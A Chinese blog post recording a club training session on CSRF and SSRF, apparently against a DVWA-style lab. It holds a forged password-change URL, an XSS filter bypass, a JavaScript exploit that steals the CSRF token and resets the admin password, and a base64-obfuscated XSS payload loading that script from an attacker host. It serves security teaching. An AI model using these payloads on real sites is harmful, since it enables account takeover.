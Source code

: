 ```yaml
---
layout: post
title: "CSRF+SSRF入门(社团培训记录)"
tags: [group]
author: wqpw
---
```


# CSRF+SSRF入门(社团培训记录)

突然想记录下。

## CSRF

```text
CSRF，全名 Cross Site Request Forgery，跨站请求伪造。易与 XSS 混淆，对于 CSRF，其两个关键点是跨站点的请求与请求的伪造。因为用户的敏感操作的每一个参数都可以被攻击者获知，攻击者可以伪造一个完全一样的请求以用户的身份达到恶意目的，即CSRF攻击。
```

![1](/assets/pcs1.png)
这个页面有一个修改管理员密码的功能。

![2](/assets/pcs2.png)
试一下，我们可以得知修改密码的请求是

`http://justforfun.site/vulnerabilities/csrf/?password_new=新密码&password_conf=新密码&Change=Change`

所以如果我们想把管理员的密码变成我们期望的密码，就可以[社工](https://baike.baidu.com/item/%E7%A4%BE%E4%BC%9A%E5%B7%A5%E7%A8%8B%E5%AD%A6/2136830)(社会工程学，动词社工。以前时认识一个人关于这个挺有一套的，暂且不表)管理员点击下面的链接(把密码改成hacker)：

`http://justforfun.site/vulnerabilities/csrf/?password_new=hacker&password_conf=hacker&Change=Change`

但是这样太显眼了，管理员~~不一定~~一定不会上当，所以我们需要想办法伪装掩饰一下。

比如这样
![3](/assets/pcs3.png)
只要一打开hacker.site，浏览器就会自动发送修改密码的请求。这样只要骗管理员打开hacker.site就行，成功率有不少提升。

当然，因为只是一个GET请求，所以[方法](https://ctf-wiki.github.io/ctf-wiki/web/csrf/)有很多：

```html
(HTML中能设置src/href等链接地址的标签都可以发起一个GET请求)
<link href="">
<img src="">
<img lowsrc="">
<img dynsrc="">
<meta http-equiv="refresh" content="0; url=">
<iframe src="">
<frame src="">
<script src=""></script>
<bgsound src=""></bgsound>
<embed src=""></bgsound>
<video src=""></video>
<audio src=""></audio>
<a href=""></a>
<table background=""></table>
......
还有CSS样式中的：
@import ""
background:url("")
......
```

下面看一个难一点的：

```php
<?php
if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
        ......下略
```

这段代码里检查了`$_SERVER['SERVER_NAME']`是否在`$_SERVER['HTTP_REFERER']`中出现，然后才会进入修改密码的流程，所以首先我们来康康这两东西是啥。

|||
--|:--:|
`$_SERVER['SERVER_NAME']`|返回当前运行脚本所在的服务器的主机名|
`$_SERVER['HTTP_REFERER']`|链接到当前页面的前一页面的 URL 地址|
|||

所以只要想办法让referer里有`justforfun.site`就可以通过检测了。

除了伪造referer，最简单的方法就是结合同站的XSS。

![4](/assets/pcs4.png)

这里的XSS保护`只过滤了一次<script>`，所以只要类似`<scr<script>ipt>alert(1)</script>`这样就可以弹个框。

不过这里的CSRF还用不上`<script>`，用前面的img标签就行。

![5](/assets/pcs5.png)

然后更难一点

![6](/assets/pcs6.png)

这个会先检测token(令牌)，如果发送的token和系统生成的token不一样就不会改密码，所以我们要想办法取得系统生成的token。而在这里访问一次修改密码的页面就会生成一个token放在html中，所以利用XSS把页面生成的token偷出来就可以进行CSRF攻击了。

下面是CSRF的exp (在hacker.site根目录下，文件名hack.js):

```javascript
/* 相关教程：http://www.w3school.com.cn/ajax/index.asp */
var hack1 = new XMLHttpRequest();
var token = '';
var url = 'http://justforfun.site/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change&user_token=';

hack1.open("GET", "/vulnerabilities/csrf/",true);
hack1.send();
hack1.onreadystatechange=function() {
  //请求发送成功后提取token并修改密码  
  if(hack1.readyState==4 && hack1.status==200) {
      token = hack1.responseText.match(/[0-9a-z]{32}/)[0]; //是一个长为32由0-9a-z组成的字符串
      var hack2 = new XMLHttpRequest();
      hack2.open("GET", url + token, true); //发送修改密码的请求
      hack2.send();
  }
}

```

然后是用于XSS的payload:

```html
<img src=x onerror=eval(atob('cz1jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtib2R5LmFwcGVuZENoaWxkKHMpO3Muc3JjPSdodHRwOi8vaGFja2VyLnNpdGUvaGFjay5qcyc='))>
```

解密后会执行
`s=createElement('script');body.appendChild(s);s.src='http://hacker.site/hack.js`

即向body内插入一个`<script src='http://hacker.site/hack.js'>`，从而执行`hack.js`中的代码。

效果如下：

![7](/assets/pcs7.png)

那么这里的CSRF入门大概先说到这，当然网上有很多资料。
嗯，现在来看两个例子：

[漏洞科普 对于XSS和CSRF你究竟了解多少](https://www.freebuf.com/articles/web/39234.html)

文中有一些小错误但影响不大。

[绕过Facebook CSRF防护机制实现账户劫持](https://www.freebuf.com/vuls/195814.html)

[“借刀杀人”之CSRF拿下盗图狗后台](https://www.freebuf.com/column/159411.html)

## 然后是SSRF

[来听个课](https://www.bilibili.com/video/av37393329)

[然后看点资料](https://ctf-wiki.github.io/ctf-wiki/web/ssrf/)

单纯的ssrf用处不是很大，一般都会想办法结合其他信息或者漏洞来产生更大的价值。

[谷歌SSRF漏洞解析：利用谷歌应用工具发现谷歌内部DNS信息](https://www.freebuf.com/articles/network/128508.html)

多学习，然后能看懂的漏洞报告、分析就会变多，然后技术自然会上去。

以前印象挺深的一个

[百度某个从SSRF到内网WebShell](http://www.anquan.us/static/bugs/wooyun-2015-099070.html)

结束。
